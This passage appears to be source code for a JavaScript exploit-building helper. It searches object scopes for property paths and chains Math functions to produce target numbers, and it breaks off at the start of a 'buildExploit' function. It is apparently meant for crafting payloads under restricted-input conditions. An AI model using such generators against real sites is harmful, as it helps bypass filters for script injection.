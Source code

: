 The script is as follows:

``` js
function findTargetFromScope(scope, matchFn, initPath='') {
  let visited = new Set()
  let result = []

  findTarget(scope, initPath)

  // return the shortest one
  return result.sort((a, b) => a.length - b.length)[0]

  function findTarget(obj, path) {
    if(visited.has(obj)) return
    visited.add(obj)
    const list = Object.getOwnPropertyNames(obj)
    for(let key of list) {
      const item = obj[key]
      const newPath = path ? path + "." + key : key
      try {
        if (matchFn(item)) {
          result.push(newPath)
          continue
        }
      } catch(err){}
      
      if (item && typeof item === 'object') {
        findTarget(item, newPath)
      }
    }
  }
}

function findTargetNumber(init, target) {
  let queue = [[[], init]]
  let visited = new Set()
  return bfs(target)

  function bfs(target) {
    while(queue.length) {
      let [path, current] = queue.shift()
      for(let key of Object.getOwnPropertyNames(Math)){
        if (typeof Math[key] !== 'function') continue
        let value = Math[key]?.(current)
        if (value && !Number.isNaN(value)) {
          let newPath = [`Math.${key}`, ...path]
          if (value === target) {
            return newPath
          }

          if (newPath.length >= 10) return

          if (!visited.has(value)) {
            visited.add(value)
            queue.push([newPath, value])
          }
        }
      }
    }
  }
}

function buildExploit(arrName, content) {
  let ans = []
```